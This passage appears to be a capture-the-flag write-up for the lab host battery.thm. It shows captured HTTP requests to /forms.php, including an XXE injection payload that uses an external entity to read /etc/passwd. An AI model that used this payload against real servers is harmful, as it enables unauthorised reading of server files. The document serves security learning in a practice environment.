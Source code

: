 This could lead to the **XXE Injection** vulnerability and could scale up to the **LFI** vulnerability which allows me to read the local files on the server. To initiate the exploitation, I input normal values into the form and submit it, then I capture the packets on **Burpsuite**:

```
POST /forms.php HTTP/1.1
Host: battery.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 91
Origin: http://battery.thm
Connection: close
Referer: http://battery.thm/forms.php
Cookie: PHPSESSID=n3sn1v5ebcr49c5b4t49vrb7l5

<?xml version="1.0" encoding="UTF-8"?>
<root><name>1</name><search>whoareyou?</search></root>
```

From here, I modify the request with the **XXE Injection** payload to test the vulnerability whether I could read the `/etc/passwd` file:

```
POST /forms.php HTTP/1.1
Host: battery.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 153
Origin: http://battery.thm
Connection: close
Referer: http://battery.thm/forms.php
Cookie: PHPSESSID=n3sn1v5ebcr49c5b4t49vrb7l5

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE search [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<root><name>1</name><search>&xxe;</search></root>
```
